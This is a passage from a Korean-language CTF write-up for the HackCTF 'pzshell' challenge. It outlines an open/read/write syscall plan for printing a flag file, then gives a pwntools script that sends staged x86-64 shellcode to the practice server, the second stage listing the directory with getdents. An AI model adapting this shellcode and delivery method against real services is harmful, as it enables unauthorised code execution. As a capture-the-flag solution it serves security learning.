 - **S3cr3t_F14g 파일의 내용을 출력시키는 시나리오**
    1. **(" S3cr3t_F14g ")를 파일 이름으로 하여 open으로 열기**

        ⇒ 이렇게 정상적으로 열리면 fd=3을 반환할 것임.

    2. read로 파일이름을 읽어서 스택에 저장하기 read(fd=3,rsi, 사이즈)
    3. **write로 출력하기 write(rax=1,rdi=1,rsi=lea rsi,[rsp],출력할 사이즈)**
    => read함수를 통해 반환된 값을 rdx에 넣고 출력

위 시나리오대로 쉘코드를 만들어서 실행시키면 정상적으로 플래가 출력된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pzshell/Untitled%203.png)


<br><br><br>


### 3. 풀이

---
- **첫번째 시나리오 코드(파일이름 찾기)** 


```python
from pwn import *
#context.log_level="DEBUG"
context(arch="amd64",os="linux",log_level="DEBUG")
p=remote("ctf.j0n9hyun.xyz",3038)
#p=process("./pzshell")
#gdb.attach(p,'code\nb *0xea0+$code\n')

shell="xchg rsi,rdx;"
shell=asm(shell)
shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFC7+4), vma=0x1, arch='amd64',os='linux')
shell=shell.ljust(8,"\xcc")
log.info(len(shell))
pause()
p.send(shell)

open="mov rsp,QWORD PTR fs:[0];"
open+="push 0x2e;"
open+="lea rdi,[rsp];"
open+="xor rdx,rdx;"
open+="xor rsi,rsi;"
open+="mov rax,2;"
open+="syscall;"

getdents="mov rdi,rax;"
getdents+="lea rsi,[rsp];"
getdents+="xor rdx,rdx;"
getdents+="xor rax,rax;"
getdents+="mov dx,0x3050;"
getdents+="mov rax,0x4e;"
getdents+="syscall;"

write="mov rdx,rax;"
write+="xor rax,rax;"
write+="xor rdi,rdi;"
write+="xor rsi,rsi;"
write+="mov rdi,1;"
write+="mov rax,1;"
write+="lea rsi,[rsp];"
write+="syscall"


p.send(asm(open)+asm(getdents)+asm(write))
p.interactive()  
```